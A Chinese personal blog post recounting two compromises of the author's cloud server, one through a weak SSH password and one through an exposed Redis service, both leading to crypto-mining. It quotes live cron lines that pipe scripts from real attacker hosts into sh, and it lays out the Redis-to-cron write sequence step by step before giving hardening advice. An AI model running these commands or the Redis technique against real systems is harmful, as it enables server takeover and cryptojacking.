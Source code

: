 ```yaml
---
layout: post
title: 云服日常被攻击（一、二）
date: 2024-01-23 21:04:10
categories:
- 编程记录
tags:
- 网络安全
- 云服务器
---
```


## 被攻击经历一

第一次被攻击是在2022年11月12日，16点39分。手机突然收到了腾讯云的短信，有恶意文件。
然后干的第一件事就是从小程序把服务器停了（服务器上没啥重要服务，纯用来练手玩的一些东西
后来就是上服务器排查哪出的问题，最后发现是账号密码被爆破了。

由于大创项目的原因，服务器是三个人一起用的，我给那俩人都创建了账号，权限也都给了。
关键的点来了，其中一个账号密码是 **123456** ，属于是绷不住了。
因为恶意文件的创建者都是那个账号，所以确定是这个账户密码泄露了。

恶意文件是用于挖矿的 shell 。开机就给我 cpu 干满了，属于是毫不遮掩了。
后续就是重装了系统，并且使用**强密码**。（后面要说，其实用处不大

还有要说的就是它的攻击方式
爆破用户名和密码，挺低级的。不过肯定是用被攻陷的肉鸡去爆破，同时还挖矿，吃满资源。
我恨挖矿的，真该死啊

## 被攻击经历二

第二次被攻击是在2023年12月18日发现的，但是并没有造成影响。这次我的应用是跑在 docker 容器中的。
那天发现 redis 里有这几个奇怪的 string。这定时任务显然是有巨大问题的，不是我的程序写进去的。
~~~
*/2 * * * * root cd1 -fsSL http://45.83.123.29/cleanfda/init.sh | sh
*/3 * * * * root wget -q -O- http://45.83.123.29/cleanfda/init.sh | sh
*/4 * * * * root curl -fsSL http://en2an.top/cleanfda/init.sh | sh
*/5 * * * * root wd1 -q -O- http://en2an.top/cleanfda/init.sh | sh
~~~

然后去了这些网址看了看都是下载了什么 shell 脚本。一看，好家伙！又是挖矿的。（这群人真该死啊
下面这篇文章讲了关于 redis 的安全问题，也包含了我这次被攻击的攻击细节。
[Databases. EXPOSED! (Redis)](https://censys.com/databases-exposed-redis/)

详细的就去看上面的文章吧。下面简单讲下攻击原理。
最开始也是爆破，不过这次爆破的是暴露在公网上的 redis 服务。（建议换个端口，不使用默认的 6379，不过用处不是很大
至于为什么会选择 redis ，也许 redis 配置文件的注释就给出了答案。
~~~
# Warning: since Redis is pretty fast an outside user can try up to
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.

# 警告：由于Redis速度相当快，外部用户每秒可以在一个好盒子上尝试多达150k个密码。这意味着你应该使用一个非常强的密码，否则很容易被破解。
~~~
所以即便我的密码是强密码 **~Dx33ZWi>}d8LFvwuZKo** ，但是丝毫不影响被爆破出来。（只是它花的时间会更久一些。
进入 redis 后，会执行 FLUSHALL 删除 redis 服务器上的所有数据。这样做是为了使以下键/值的内容尽可能靠近数据库文件的开头写入。
然后写入类似上面的键值对 SET backup1 "\n\n\n*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh\n\n\n"
执行 CONFIG SET dir "/var/spool/cron/" 将 redis 的 data 目录设置为系统的 "/var/spool/cron/" 目录，默认目录是 "crond" 进程找到并执行单个用户 crontabs 的目录。
执行 CONFIG SET dbfilename "root" 将 redis 的数据文件名设置为 "root"，这意味着数据库的内容将存储在 "/var/spool/cron/root" 中，即 root 用户的个人 crontab 文件。
最后执行 save 使 redis 服务器将内存同步到磁盘，如果成功，crontab 进程将读取并执行 "/var/spool/cron/root" 的内容。

到这里，服务器就不属于你了。
除了写入定时任务脚本以启动进程，也可以写入 .ssh/authorized_keys 文件来添加密钥。

## 修复建议

如那篇文章所说：
* Enable client authentication in your Redis configuration file.
  在Redis配置文件中启用客户端身份验证。
* Configure Redis to only run on internal-facing network interfaces.
  将Redis配置为只在面向内部的网络接口上运行。
* Disable the "CONFIG" command by running ‘rename-command CONFIG ""’ to avoid configuration abuse.
  通过运行"rename-command CONFIG"禁用"CONFIG"命令，以避免配置滥用。
* Configure your firewall only to accept Redis connections from trusted hosts.
  配置防火墙只接受来自可信主机的Redis连接。

最后，挖矿的真该死啊！